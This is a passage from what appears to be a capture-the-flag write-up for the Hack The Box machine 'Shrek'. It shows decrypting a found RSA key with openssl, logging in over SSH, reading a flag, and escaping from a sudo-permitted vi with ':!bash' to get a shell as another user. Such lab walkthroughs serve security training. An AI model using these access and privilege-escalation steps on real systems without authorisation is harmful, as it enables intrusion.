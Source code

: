 I can also create a decrypted copy of the key:

```

htb-0xdf@10.10.14.42~/shrek-10.10.10.47$ openssl rsa -in ftp/key -out id_rsa_sec
Enter pass phrase for ftp/key:
writing RSA key

```

Now that doesn’t ask for a password:

```

htb-0xdf@10.10.14.42~/shrek-10.10.10.47$ ssh -i id_rsa_sec sec@10.10.10.47
Last login: Thu Jul 16 22:22:53 2020 from 10.10.14.42
[sec@shrek ~]$ 

```

And I can get `user.txt`:

```

[sec@shrek ~]$ cat user.txt
4a30ad60************************

```

## Priv: sec –> root

### Fake Path

I always check `sudo -l`, and this time, it leads down a simple but useless path:

```

[sec@shrek ~]$ sudo -l
User sec may run the following commands on shrek:
    (farquad) NOPASSWD: /usr/bin/vi

```

I can run `sudo -u farquad vi`, and then enter `:!bash` and drop to a shell as farquad:

```

[sec@shrek ~]$ sudo -u farquad vi
[farquad@shrek sec]$

```

Strangely, farquad’s home directory is `/var/local.farquad`. In it, there’s a binary:

```

[farquad@shrek ~]$ ls
mirror

```

